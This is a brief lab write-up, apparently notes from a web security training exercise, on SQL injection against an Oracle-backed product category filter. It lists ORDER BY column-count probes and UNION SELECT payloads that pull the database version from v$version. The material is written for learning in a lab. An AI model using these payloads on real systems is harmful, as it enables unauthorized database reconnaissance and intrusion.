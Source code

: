 Lab: SQL injection attack, querying the database type and version on Oracle
Vuln : product category filter.
Task : Display version of database.

Database : Oracle

' Order by 1--
' Order by 2--
' Order by 3--  error hence 2 columns

string columns: ' Union select 'a', NUll from dual-- -> dual is default table in every oracle DB.

' Union select banner,null from v$version-- : gives version of database of oracle.
